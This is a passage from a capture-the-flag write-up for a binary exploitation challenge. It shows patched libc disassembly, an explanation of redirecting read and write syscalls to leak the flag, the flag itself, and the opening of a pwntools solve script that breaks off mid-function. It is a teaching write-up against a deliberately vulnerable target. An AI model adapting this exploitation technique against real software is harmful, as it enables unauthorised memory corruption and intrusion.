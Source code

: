 ```text
0x7fca9f372a11 <read+145>: mov    DWORD PTR fs:[rdx],eax
0x7fca9f372a14 <read+148>: mov    rax,0xffffffffffffffff
0x7fca9f372a1b <read+155>: jmp    0x7fca9f372a60 <write+64> //C
[...]
0x7fca9f372a60 <write+64>: rex.XB //C
0x7fca9f372a61 <write+65>: mov    r8d,eax

// write 1337, flag, 0x40
0x7fca9f372a64 <write+68>: mov    edi,DWORD PTR [rsp+0x8]
0x7fca9f372a68 <write+72>: mov    eax,0x1
0x7fca9f372a6d <write+77>: syscall 
[...]
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="wfw_after_asm"
    button-text="Show libc_changed.asm" toggle-text=wfw_after_asm  %}

After overwriting the first return, I control the input to the read syscall to manipulate the content in rsp+0x43, and write the flag location there, so the write syscall will leak out the flag. To overcome the issue of no output, I add a sleep between each input to make sure the remove server have enough time to process each input. A better solution will be to pad each input to 0x40 bytes, then no delay will be needed. The solve script is in solve3.py. 

`CTF{y0ur_3xpl0itati0n_p0w3r_1s_0v3r_9000!!}`
{% capture wfw_solve3_py %}

```python
from pwn import *
import time

elf = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]


def connect():
    if args.REMOTE:
        nc_str = "nc wfw3.2023.ctfcompetition.com 1337"
        _, host, port = nc_str.split(" ")
        p = remote(host, int(port))

    else:
        os.system("ulimit -n 2048")
        p = process([elf.path], preexec_fn = lambda: os.dup2(0, 1337))
        if args.GDB:
           gdb_script = """
           b *main+638
           c 20
           """
           gdb.attach(p, gdb_script)

    return p


def main():
    p = connect()

    def write(addr, len):
        #p.stdout.write(f'0x{addr:x} {len}\n'.encode())
        p.sendline(f'0x{addr:x} {len}'.encode())
```